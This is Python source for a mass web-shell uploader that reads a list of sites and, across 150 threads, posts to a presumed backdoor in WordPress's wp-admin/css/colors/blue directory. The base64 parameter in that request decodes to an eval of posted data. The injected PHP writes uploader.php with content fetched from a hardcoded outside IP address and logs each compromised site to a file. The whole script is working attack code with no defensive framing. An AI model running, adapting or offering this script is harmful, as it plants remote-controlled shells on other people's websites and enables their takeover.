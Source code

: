 import sys , requests, re , socket , random , string , base64
from multiprocessing.dummy import Pool
from colorama import Fore
from colorama import init 

init(autoreset=True)
#aDriv4 tooL 
fr  =   Fore.RED
fg  =   Fore.GREEN

banner = '''{}
╭━━━╮╱╱╱╱╱╱╱╱╱╱╱╱╱╭╮╱╭┳╮╱╭┳━━━╮
╰╮╭╮┃╱╱╱╱╱╱╱╱╱╱╱╱╱┃┃╱┃┃┃╱┃┃╭━╮┃
╱┃┃┃┣━━┳━╮╭━━┳━━┳━┫╰━╯┃╰━╯┃┃┃┃┃
╱┃┃┃┃┃━┫╭╮┫╭╮┃╭╮┃╭┻━━╮┣━━╮┃┃┃┃┃
╭╯╰╯┃┃━┫┃┃┃╰╯┃╭╮┃┃╱╱╱┃┃╱╱┃┃╰━╯┃
╰━━━┻━━┻╯╰┻━╮┣╯╰┻╯╱╱╱╰╯╱╱╰┻━━━╯
╱╱╱╱╱╱╱╱╱╱╭━╯┃
╱╱╱╱╱╱╱╱╱╱╰━━╯
TooL Free Priv aDengar440  
  

\n'''.format(fr)
print banner

requests.urllib3.disable_warnings()

try:
    target = [i.strip() for i in open(sys.argv[1], mode='r').readlines()]
except IndexError:
    path = str(sys.argv[0]).split('\\')
    exit('\n  [!] Enter <' + path[len(path) - 1] + '> <sites.txt>')




headers = {'Connection': 'keep-alive',
			'Cache-Control': 'max-age=0',
			'Upgrade-Insecure-Requests': '1',
			'User-Agent': 'Mozlila/5.0 (Linux; Android 7.0; SM-G892A Bulid/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/60.0.3112.107 Moblie Safari/537.36',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
			'Accept-Encoding': 'gzip, deflate',
			'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
            'referer': 'www.google.com'}


def id_generator(size=8, chars=string.ascii_uppercase + string.digits):
	return ''.join(random.choice(chars) for _ in range(size))
	


def URLdomain(site):
    if 'http://' not in site and 'https://' not in site :
        site = 'http://'+site
    if site[-1]  is not '/' :
        site = site+'/'
    return site

def domain(site):
    if site.startswith("http://") :
        site = site.replace("http://","")
    elif site.startswith("https://") :
        site = site.replace("https://","")
    if 'www.' in site :
        site = site.replace("www.", "")
    site = site.rstrip()
    if site.split('/') :
        site = site.split('/')[0]
    while site[-1] == "/":
        pattern = re.compile('(.*)/')
        sitez = re.findall(pattern,site)
        site = sitez[0]
    return site

def addWWW(site):
    if site.startswith("http://"):
        site = site.replace("http://", "http://www.")
    elif site.startswith("https://"):
        site = site.replace("https://", "https://www.")
    else :
        site = 'http://www.'+site
    return site

def exploit(url) :
    try :
			dom = domain(url)
			url = URLdomain(url)
			if 'www.' in url:
				username = url.replace('www.', '')
			else:
				username = url
			if '.' in username:
				username = username.split('.')[0]
			if 'http://' in username:
				username = username.replace('http://', '')
			else:
				username = username.replace('https://', '')
			up=username.title()
			filename = id_generator()
			file_name = "uploader.php"
			shell_content = """$x=fwrite(fopen($_SERVER['DOCUMENT_ROOT'].'/wp-admin/css/colors/blue/"""+file_name+"""','w+'),file_get_contents('http://51.79.124.111/vz.txt'));echo "aDriv4".$x;"""
			data = {'vz':shell_content}
			check = requests.post(url + "/wp-admin/css/colors/blue/blue.php?wall=ZWNobyBhRHJpdjQ7ZXZhbCgkX1BPU1RbJ3Z6J10pOw==", data=data,headers=headers, verify=False, timeout=15).content
			print check
			if 'aDriv4' in check:
				print("-| {}   Success  (Found)").format(url)
				open("Uploader.txt", "a").write(url + "wp-admin/css/colors/blue/" + file_name + "\n")
				
			else:
				print("-| {}   Falid (Not ) ").format(url)
				open('badShell.txt','a').write(url+"\n")
    except :
        print ' -| ' + url + '--> {}[Failed]'.format(fr)
        


mp = Pool(150)
mp.map(exploit, target)
mp.close()
mp.join()
